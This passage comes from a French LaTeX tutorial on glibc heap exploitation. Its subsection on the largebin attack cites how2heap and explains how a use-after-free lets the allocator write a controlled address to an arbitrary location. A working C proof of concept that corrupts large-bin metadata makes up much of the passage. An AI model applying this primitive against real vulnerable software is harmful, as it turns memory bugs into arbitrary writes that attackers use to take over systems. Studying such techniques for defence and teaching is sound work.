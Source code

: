\subsubsection{Largebin Attack}

\noindent\textbf{Fichier de Référence :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/large_bin_attack.c}{\texttt{large\_bin\_attack.c}}

\noindent\textbf{Techniques similaires :}
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_tangerine.c}{\texttt{house\_of\_tangerine.c}},
\href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/house_of_water.c}{\texttt{house\_of\_water.c}}

\paragraph{Hypothèse :} Largebin, Use-After-Free, Heap Feng Shui.

\paragraph{Inconvénient :} On ne peut modifier la cible qu’avec des valeurs d’adresse.\\
Technique patchée à partir de la version 2.42 (\href{https://patchwork.sourceware.org/project/glibc/patch/20250214053454.2346370-1-benjamin.p.kallus.gr@dartmouth.edu/}{patch}).

L'idée de cette technique est de modifier la valeur d'une variable.
Pour ce faire, on utilise un bug de type use-after-free afin de substituer un pointeur
des métadonnées vers notre cible.
L’objectif final est de faire en sorte que le mécanisme interne de gestion des large bins
écrive une adresse contrôlée à un emplacement arbitraire.

Le code est le suivant :

\begin{verbatim}
int main()
{
    /* Disable IO buffering to prevent stream from interfering with heap */
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    size_t target = 0;
    size_t *p1 = malloc(0x428);
    size_t *g1 = malloc(0x18);

    size_t *p2 = malloc(0x418);
    size_t *g2 = malloc(0x18);

    free(p1);
    size_t *g3 = malloc(0x438);

    free(p2);

    /* Overwrite metadata pointer */
    p1[3] = (size_t)((&target) - 4);

    size_t *g4 = malloc(0x438);

    assert((size_t)(p2 - 2) == target);

    return 0;
}
\end{verbatim}

